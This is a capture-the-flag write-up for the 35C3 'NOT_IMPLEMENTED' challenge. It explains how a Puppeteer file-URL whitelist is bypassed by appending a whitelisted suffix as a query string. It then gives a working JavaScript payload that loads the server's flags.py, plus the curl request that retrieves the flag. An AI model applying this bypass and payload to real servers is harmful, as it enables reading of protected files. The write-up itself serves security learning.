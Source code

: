 # Challenge NOT_IMPLEMENTED

500 Points

## Challenge

NOT_IMPLEMENTED was not implemented nor intended. Capture it and profit.

http://35.207.132.47

Difficulty estimate: Hard++

Good coders should learn one new language every year.

InfoSec folks are even used to learn one new language for every new problem they face (YMMV).

If you have not picked up a new challenge in 2018, you're in for a treat.

We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.

Some cool Projects can be created in Wee, like: this, this and that.

Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.

Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).

We even added new features to this better server, like server-side Wee evaluation!

To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

Hints:
- Once you dug through every layer, you have reached the core. From there you may chose any direction and move anywhere.



## Solution

The only place in the server.py where the NOT_IMPLEMENTED is referenced is in the following request:

```
@app.route("/pyserver/flags.py", methods=["GET"])
def server_flags():
    return Response("""
DB_SECRET = "35C3_???"
DECRYPTED = "35C3_???"
DEV_NULL =  "35C3_???"
LOCALHOST = "35C3_???"
LOGGED_IN = "35C3_???"
NOT_IMPLEMENTED = "35C3_???"
    """, mimetype='text/x-python')
```

But the flag "NOT_IMPLEMENTED" is not imported into the server.py, only the other flags:

```
from flags import DB_SECRET, DECRYPTED, DEV_NULL, LOCALHOST, LOGGED_IN
```

So we need to read the file flags.py from the server. Luckily, the weeterpreter.ts allow us to execute javascript code in a Puppeteer environment. The environment is configurated to not load files except the ones that pass the following check:

```
page.on('request', r=> (r.url().startsWith("file://") && (
        r.url().endsWith("weelang/pypyjs.html") ||
        r.url().endsWith("lib/FunctionPromise.js") ||
        r.url().endsWith("lib/pypyjs.js") ||
        r.url().endsWith("lib/pypyjs.vm.js") ||
        r.url().endsWith("lib/pypyjs.vm.js.zmem")
    ) ? r.continue() : r.abort() && console.log("blocked", r.url()))
)
```

This check is not really save, since we can request a file any file and just append ?lib/pypyjs.js to the file and pass the check.

After some tries, it was possible for us to load the flags.py as javascript code (luckily for us the python code to define the flags is also valid javascript code). But it seems like our additional code gets executed before the flag.py could load and NOT_IMPLEMENTED as always not defined.

But it seems like the puppeteer browser is only created once per request, so we could execute multiple evals and wait a little between them. This gives puppeteer time to load flags.py. After some try-and-error this is a successfull payload:

```
alert(
  eval('
    inject = document.createElement(`script`);
    inject.src=`../pyserver/flags.py?lib/pypyjs.js`;
    document.head.append(inject);
  ')
)
eval('
  function sleepFor( sleepDuration ){
    var now = new Date().getTime();
    while(new Date().getTime() < now + sleepDuration){}
  }
  sleepFor(1000);
')
alert(eval('NOT_IMPLEMENTED'))
```

The flags.py file is loaded first as external javascript. Then we busy wait for 1 second to make sure the file was loaded. After that we can simply "alert" the flag.

Final execution:
```
root@blackbox:# curl -X POST -d @payload.txt "http://35.207.132.47/wee/run"
{"code":"  [removed for readability]","result":"undefined\n35C3_I_AM_TOO_LAZY_TO_BUILD_THIS_JUST_TAKE_THE_FLAG_JEEZ\n"}
```

Flag: 35C3_I_AM_TOO_LAZY_TO_BUILD_THIS_JUST_TAKE_THE_FLAG_JEEZ
